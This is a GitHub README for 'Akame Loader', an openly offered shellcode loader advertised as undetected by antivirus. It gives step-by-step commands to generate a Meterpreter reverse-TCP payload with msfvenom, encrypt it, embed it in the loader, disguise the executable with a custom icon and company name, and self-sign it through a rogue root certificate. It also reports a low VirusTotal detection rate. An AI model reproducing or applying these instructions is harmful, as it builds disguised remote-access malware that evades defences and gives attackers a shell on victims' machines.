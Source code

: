 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD shellcode loader written in C++17</h4>

## Details

## Build instructions
**1. Generate a shellcode with metasploit<br>**
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin <br>
**2. Encrypt your shellcode with encrypt.exe<br>**
mv shellcode.bin \Akame Loader\x64\Release\Resources\ <br>
cd \Akame Loader\x64\Release\Resources\ <br>
(optional) encrypt --help<br>
encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>
**3. Copy the output and paste it under the "payload" comment<br>**
Paste your IV key, your KEY and your BUFF into the existent vectors<br>
**4. Change the resources<br>**
Add your icon, your company name, etc.<br>
**5. Build the project<br>**
Language standard: ISO C++17<br>
Configuration: Release<br>
Platform: x64<br>
Runtime Library: Multi-Threaded (/MT)<br>
SubSystem: Windows<br>
Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
**6. Add a certificate to your executable<br>**
move Akame.exe Resources && cd Resources<br>
makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
certutil -user -addstore Root AkameCA.cer<br>
makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe<br>
! Change "Akame.exe" to whatever your executable name is<br>

## VirusTotal Scan (3/71 security vendors and no sandboxes)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
